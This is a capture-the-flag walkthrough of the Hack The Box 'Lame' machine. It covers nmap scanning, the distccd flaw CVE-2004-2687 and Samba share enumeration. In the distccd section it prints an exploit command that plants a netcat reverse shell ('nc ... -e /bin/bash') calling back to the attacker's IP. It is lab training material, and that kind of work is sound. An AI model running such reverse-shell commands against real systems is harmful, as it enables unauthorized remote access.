


<div style="display: flex; align-items: center;">
  
  <div>
    <p style="font-size:35px;"><b>Lame</b></p>
    <p style="font-size:20px;">Linux • <font color="#8ac73e">Easy</font></p>
  </div>
</div>

## Nmap

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -Pn -T4 10.10.10.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-26 06:28 EDT
Nmap scan report for 10.10.10.3
Host is up (0.21s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m20s, deviation: 2h49m43s, median: 19s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-06-26T06:35:52-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 441.21 seconds
```

## distccd

Regarding `distccd` on port `3632`, we find `CVE-2004-2687`:
> distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks.

We will be using [DarkCoderSc's exploit](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855):

We set up a netcat listener, and run the exploit:
```bash
$ python2 distccd-exploit.py -t 10.10.10.3 -p 3632 -c 'nc 10.10.14.55 4444 -e /bin/bash'
```

We have reverse shell! we will also run `script -qc /bin/bash /dev/null` and `export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '` for interactive shell.



We find the user flag at `/home/makis/user.txt`.

## SMB

I decided to also check out SMB.

```bash
$ smbmap -H 10.10.10.3

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Using the information in [this article](https://medium.com/@e.escalante.jr/network-pentesting-workshop-browsing-smb-shares-and-getting-a-shell-using-the-smbclient-tool-ec0bee4294f1) we will try to get reverse shell.

We get access through `smbclient`, set up a netcat listener, and get access by exploiting `logon`:\


We can now get the root flag!
